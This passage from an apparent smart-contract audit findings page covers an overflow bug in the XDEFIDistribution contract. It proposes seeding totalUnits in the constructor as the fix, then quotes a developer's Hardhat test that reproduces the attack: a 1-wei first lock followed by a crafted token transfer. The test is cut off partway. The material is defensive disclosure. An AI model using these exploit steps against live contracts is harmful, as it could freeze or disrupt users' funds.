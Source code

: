 #### [](#recommended-mitigation-steps)Recommended Mitigation Steps

Uniswap v2 solved a similar problem by sending the first 1000 lp tokens to the zero address.

The same solution should work here, i.e., on constructor set an initial amount (like 1e8) for `totalUnits`

[https://github.com/XDeFi-tech/xdefi-distribution/blob/3856a42df295183b40c6eee89307308f196612fe/contracts/XDEFIDistribution.sol#L39-L44](https://github.com/XDeFi-tech/xdefi-distribution/blob/3856a42df295183b40c6eee89307308f196612fe/contracts/XDEFIDistribution.sol#L39-L44)

    constructor (address XDEFI_, string memory baseURI_, uint256 zeroDurationPointBase_) ERC721("Locked XDEFI", "lXDEFI") {
        require((XDEFI = XDEFI_) != address(0), "INVALID_TOKEN");
        owner = msg.sender;
        baseURI = baseURI_;
        _zeroDurationPointBase = zeroDurationPointBase_;
    
        totalUnits = 100_000_000;
    }

**[deluca-mike (XDEFI) confirmed](https://github.com/code-423n4/2022-01-xdefi-findings/issues/156#issuecomment-1008255566):**

> This is a great catch! I just tested it:
> 
>     const { expect } = require("chai");
>     const { ethers } = require("hardhat");
>     
>     const totalSupply = '240000000000000000000000000';
>     
>     const toWei = (value, add = 0, sub = 0) => (BigInt(value) * 1_000_000_000_000_000_000n + BigInt(add) - BigInt(sub)).toString();
>     
>     describe("XDEFIDistribution", () => {
>         it("Can overflow _pointsPerUnit", async () => {
>             const [god, alice, bob] = await ethers.getSigners();
>     
>             const XDEFI = await (await (await ethers.getContractFactory("XDEFI")).deploy("XDEFI", "XDEFI", totalSupply)).deployed();
>             const XDEFIDistribution = await (await (await ethers.getContractFactory("XDEFIDistribution")).deploy(XDEFI.address, "https://www.xdefi.io/nfts/", 0)).deployed();
>     
>             // Give each account 2,000,000 XDEFI
>             await (await XDEFI.transfer(alice.address, toWei(2_000_000))).wait();
>             await (await XDEFI.transfer(bob.address, toWei(2_000_000))).wait();
>     
>             // bonusMultiplierOf[30 days] = 100
>             await (await XDEFIDistribution.setLockPeriods([2592000], [100])).wait();
>     
>             // 1. Alice lock() 1 wei of XDEFI for 30 days as the first user of the contract. Got 1 units, and totalUnits now is 1;
>             await (await XDEFI.connect(alice).approve(XDEFIDistribution.address, 1)).wait();
>             await (await XDEFIDistribution.connect(alice).lock(1, 2592000, alice.address)).wait();
>             expect(await XDEFIDistribution.balanceOf(alice.address)).to.equal('1');
>             const nft1 = (await XDEFIDistribution.tokenOfOwnerByIndex(alice.address, 0)).toString();
>             expect((await XDEFIDistribution.positionOf(nft1)).units).to.equal(1);
>     
>             // 2. Alice sends 170141183460469 wei of XDEFI to the contract and calls updateDistribution()
>             await (await XDEFI.connect(alice).transfer(XDEFIDistribution.address, 170141183460469)).wait();
>             await (await XDEFIDistribution.connect(alice).updateDistribution()).wait();